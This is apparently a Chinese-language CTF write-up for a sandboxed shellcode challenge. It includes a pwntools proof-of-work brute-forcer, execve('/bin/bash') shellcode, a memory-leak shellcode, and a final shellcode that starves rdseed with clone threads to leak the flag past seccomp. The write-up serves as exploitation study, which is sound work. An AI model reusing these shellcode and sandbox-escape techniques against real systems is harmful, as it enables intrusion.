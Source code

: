 # blursed
输出一个随机生成的0x10字节字符串，然后输入0x30字节的数据，二者在栈上是连续的。
![avatar](./pic/pow1.png)
共计0x40字节的数据放入`sub_43E2D0`中处理；在sub_43FAA0中看到一些常数，搜索得到两个结果`Sha512`和`blake2b`，两个算法使用同样的初始值；因为hash值的长度可自行设置，故为`blake2b`算法。
![avatar](./pic/hash.png)
对哈希后的结果进行判断，只有在前三个字节都为0时才可以继续执行。
```python
from pwn import *
from hashlib import blake2b, sha512
import itertools

p = process("./cursed")
context.arch = "amd64"

def pow():
    randstr = p.recv()
    for i in itertools.permutations(range(256),48):
        msg = "".join([chr(x) for x in i])
        data = randstr + msg.encode('latin')
        hsh = blake2b(data, digest_size=0x10).digest()
        if hsh[0] | hsh[1] | hsh[2] == 0:
            print(hsh)
            break
    p.send(msg.encode("latin"))
        
pow()
p.interactive()
```
接下来，用mmap分配大小0x1000为的RWX页面，然后使用clone函数启动子进程。子进程将`flag`读入一个128字节的缓冲区中，空余字节填充为\x01；然后将`bozo.bin`作为可执行代码映射到内存；将全局变量`byte_0x664f60`设置为1，然后将flag，和之前分配的RWX页面作为参数调用`bozo.bin`

主进程将会向之前分配的RWX页面中读入一个长度为0x1000字节的数据作为shellcode，然后等待`byte_0x664f60`设置为1。尝试直接getshell失败
```python
>>> pwn.asm(pwn.shellcraft.execve("/bin/bash"))
b'jhH\xb8/bin/basPH\x89\xe71\xd21\xf6j;X\x0f\x05'
```
```x86asm
   0x7f6eb7193011                  shl    BYTE PTR [rcx], cl
   0x7f6eb7193013                  imul   BYTE PTR [rdx+0x3b]
   0x7f6eb7193016                  pop    rax
 → 0x7f6eb7193017                  syscall 
   0x7f6eb7193019                  ret    
   0x7f6eb719301a                  ret    
   0x7f6eb719301b                  ret    
   0x7f6eb719301c                  ret    
   0x7f6eb719301d                  ret    
────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "cursed", stopped 0x7f6eb7193017 in ?? (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f6eb7193017 → syscall 
───────────────────────────────────────────────────────────────────────────────
gef➤  

Program terminated with signal SIGSYS, Bad system call.
The program no longer exists.
gef➤  

```

查看字符串可以看到seccomp字样，查找交叉引用找到开启seccomp的位置为`sub_4300D0`，写入一个死循环的shellcode让程序可以不退出
```python
>>> pwn.asm("start:mov rax,1;jmp start")
b'H\xc7\xc0\x01\x00\x00\x00\xeb\xf7'
```
使用`seccomp-tools`查看规则
![avatar](./pic/seccomp.png)

首先，需要leak出`bozo.bin`从而了解其如何处理flag以及shellcode。由于mmap通常会从高到低分配连续的空间，所以bozo.bin的分配的空间会在RWX页的前面
```
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/ymcold/cursed
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/ymcold/cursed
0x0000000000402000 0x0000000000407000 0x0000000000002000 --- /home/ymcold/cursed
0x0000000000407000 0x000000000040a000 0x0000000000007000 r-x /home/ymcold/cursed
0x000000000040a000 0x0000000000655000 0x000000000000a000 --- /home/ymcold/cursed
0x0000000000656000 0x0000000000662000 0x0000000000255000 r-- /home/ymcold/cursed
0x0000000000662000 0x0000000000665000 0x0000000000261000 rw- /home/ymcold/cursed
0x0000000000665000 0x000000000066f000 0x0000000000000000 rw- 
0x00000000012f4000 0x0000000001317000 0x0000000000000000 rw- [heap]
0x00007f4aadc52000 0x00007f4aadc53000 0x0000000000000000 r-x /home/ymcold/bozo.bin
0x00007f4aadc53000 0x00007f4aadc54000 0x0000000000000000 rwx 
0x00007ffca58f8000 0x00007ffca5919000 0x0000000000000000 rw- [stack]
0x00007ffca597b000 0x00007ffca597f000 0x0000000000000000 r-- [vvar]
0x00007ffca597f000 0x00007ffca5981000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```
因此leak`bozo.bin`是很轻松的
```x86asm
call start
start:
    pop rsi
    sub rsi, 0x1005
    mov rdi,1
    mov rdx,0x1000
    mov rax,1
    syscall
```

由于此题缺少远程环境，并且未找到bozo.bin的二进制文件，所以在之后的流程只能通过网上现有的write-up了解。

在bozo.bin 的流程如下
- 将flag加载到`xmm0-xmm7`,然后设置rbx为`shellcode_addr+0xff8`位置
- 使用shellcode填充原本flag的位置
- 执行128段相似的代码块
```x86asm
; rbx == [input+0xff8]
loc_3E: ; first block
xor     r8, r8
pextrb  eax, xmm7, 0Fh  ; load the a flag byte into al
; different blocks fetch different bytes
cmpxchg [rbx], r8       ; if al == [rbx]:
                        ;   [rbx] = r8
                        ;   break since ZF=0
                        ; else:
                        ;   al = [rbx]
pause
jnz     short loc_3E
call    sub_BE8
```
代码块会从`xmm`寄存器中读取一个字节并和`rbx`中的值进行比较；如果相等则会将`rbx`中的值设置为0，否则进行循环。
思路是将`input+0xff8`中的值遍历`1-255`，然后看是否该值被设置为0；如果为0，则为正确的flag，否则继续循环。

然而问题在于每次执行完一个小的代码块，都会执行一次`sub_BE8`
```x86asm
 sub_BE8         proc near
     mov     rcx, 8
 loc_BEF:
         xor     rax, rax
         rdseed  rax
         and     rax, 0FFFh ; rax = rand([0:0xfff])
         mov     dword ptr [rsi+rax], 0FFFFFFFFh
         ; write to shellcode randomly
         dec     rcx
         cmp     rcx, 0
         jg      short loc_BEF
     retn
 sub_BE8         endp
```
该代码会随机的使用`0xffffffff`填充在我们的shellcode位置，使shellcode无法继续执行。

解决问题的关键在于rdseed指令。
![avatar](./pic/rdseed.png)
该指令在被大量执行时，会发生错误，如果错误则会固定返回0；那么`sub_BE8`就不会将`0xffffffff`写入到我们的shellcode上了

`seccomp`规则中提供了`clone`函数，可以使用该函数开启多个子进程反复调用`rdseed`指令，使其执行失败，从而完成对`flag`的遍历。

具体的shellcode 如下
```x86asm
call next
next: pop rbx

mov rbp, %s ; parameterize number of threads
clones:
	mov rdi,0x18900 
	; use the same flag as that of bozo.bin thread
	mov rsi,rsp
	sub rsi,0x2000
	; stack is rsp-0x2000, although not used
	mov rax,SYS_clone
	syscall ; call clone
	test rax, rax
	jz rdseed_loop 
	; let child thread execute the rdseed loop
	dec rbp
	test rbp,rbp
jnz clones

add rbx, -5+0xff8 ; rbx = RWX+0xff8
mov rsi, rbx
sub rsi, 8 ; rsi = buffer for SYS_write
mov rax, SYS_write
mov rdi, 1 ; fd = stdout
mov rdx, 1 ; size = 1
; load the needed arguement into register first
; to reduce size of the loop
; therefore the crack_loop is less likely to be destructed

mov rcx,0x100
wait0: loop wait0
; wait for a while to ensure threads are started
; maybe it is not needed

crack_loop:
	mov r8,1 ; i = 1
	byte_loop:
		mov qword ptr [rbx], r8 ; [rbx] = i
		mov rcx,%s
		wait: loop wait ; wait
		; the rcx, number of times, is parameterized
		cmp qword ptr [rbx], 0
		jnz byte_loop_end ; if [rbx] == 0
		mov [rsi], r8
		syscall ; print i
		jmp crack_loop ; break, try next byte
		byte_loop_end:
		inc r8 ; if [rbx] != 0, increment i and try next value
		cmp r8, 0xff
		jbe byte_loop
jmp crack_loop

rdseed_loop:
rdseed rax
jmp rdseed_loop
```
